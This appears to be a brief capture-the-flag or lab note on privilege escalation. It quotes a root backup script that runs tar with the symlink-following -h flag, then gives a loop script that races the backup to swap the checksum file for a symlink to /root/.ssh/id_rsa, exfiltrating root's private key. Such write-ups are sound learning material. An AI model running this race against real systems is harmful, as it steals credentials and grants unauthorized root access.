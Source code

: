 #### Abusing dereference
Reviewing the code inside we get this:
```bash
#!/bin/bash
file=`date +%N`
/usr/bin/rm -rf /opt/backups/*
/usr/bin/tar -cvf "/opt/backups/$file.tar" /var/www/app/
sha1sum "/opt/backups/$file.tar" | cut -d ' ' -f1 > /opt/backups/checksum
sleep 5
check_file=`date +%N`
/usr/bin/tar -chvf "/var/backups/web_backups/${check_file}.tar" /opt/backups/checksum "/opt/backups/$file.tar"
/usr/bin/rm -rf /opt/backups/*
```

As we can notice there is a stranger flag within the latest tar command which is -h:

```bash
/usr/bin/tar -chvf "/var/backups/web_backups/${check_file}.tar" /opt/backups/checksum "/opt/backups/$file.tar"
```

After reading the manual for tar, we can see that this flag is used to follow symlink and dump the file that is pointing to:

```bash
			 --exclude-vcs-ignores
		      Exclude files that match patterns read from VCS-specific ignore files.
					Supported  files  are:  .cvsignore,  .gitignore,
              .bzrignore, and .hgignore.

       -h, --dereference
              Follow symlinks; archive and dump the files they point to.

       --hard-dereference
              Follow hard links; archive and dump the files they refer to.
```

With this in mind then we can start a race condition to delete the checksum file which is being generated and then insert our symlink pointing to an interesting file that allow us to escalate privileges (root id_rsa for example):

First we need to create a script that checks when the file checksum is generated, remove it and create our symlink instead of it pointing to the id_rsa from root, exactly like this:

```bash
#!/bin/bash

while true
do
        if [ -e /opt/backups/checksum ]
        then
                rm -rf /opt/backups/checksum
                ln -s /root/.ssh/id_rsa /opt/backups/checksum
                break;
        fi
done
```
Examples:
[[Epsilon#^8af3a9]]

